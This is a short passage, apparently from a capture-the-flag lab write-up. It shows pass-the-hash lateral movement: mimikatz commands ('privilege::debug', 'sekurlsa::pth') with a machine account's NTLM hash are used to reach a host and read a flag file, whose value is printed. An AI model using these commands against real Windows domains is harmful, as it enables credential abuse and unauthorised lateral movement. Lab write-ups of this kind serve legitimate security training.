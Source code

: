````sql
Obtain the NTML of the machine account in the domain, and then use `mimikatz` to inject the `Hash` into the `lsass` process of the machine account, then horizontally to `172.22.8.15`, and read `flag03.txt` in the `C:\Users\Administrator\flag` directory: `flag{d9891234-e256-4b49-8b71-8f007d381be1}`.

```bash
privilege::debug
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:23d4fee9803cc89813fd6bbf00e2c939
```

![](./images/20.png)